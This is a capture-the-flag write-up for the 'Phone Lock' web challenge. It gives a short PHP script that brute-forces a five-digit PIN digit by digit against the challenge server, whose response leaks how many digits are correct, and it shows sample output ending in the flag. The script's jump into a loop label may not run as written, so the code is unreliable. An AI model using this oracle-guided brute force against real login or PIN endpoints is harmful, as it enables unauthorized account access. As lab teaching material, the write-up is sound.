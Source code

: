 ## Phone Lock (Web Exploitation)
A friend of mine forgot her phone password. I told her you're the hacker! Go get 'em lion.

### Reference
- https://en.wikipedia.org/wiki/Brute-force_attack

### Proof of Concept
- Make simple script for solve this challenges
	- Example code
	```php
	list($keylock, $i) = ["00000", 0];
	foreach (str_split($keylock) as $k => $x) {
	    main: if ($i == 5) break;

	    foreach (range("0", "9") as $y) {
	        $keylock[$k] = $y;
	        
	        echo "[!] Trying ({$keylock} - idx: {$k})... ";
	        $datas = json_decode(file_get_contents("http://chall.ctfs.me:8016/fresult.php?x={$keylock}"));
	        if ($datas->result > $i) {
	            $i++; $k++; echo "[OK]" . PHP_EOL; 
	            goto main;
	        } else echo "[WRONG]" . PHP_EOL;
	    }
	}

	printf("[*] Flag: %s" . PHP_EOL, $datas->flag);
	```

	- Usage
	```
	>> php {file}.php
	[!] Trying (00000 - idx: 0) ... [{status}]
	.
	.
	.
	[!] Trying (99999 - idx: 4) ... [{status}]
	[*] Flag: CTFS{}
	```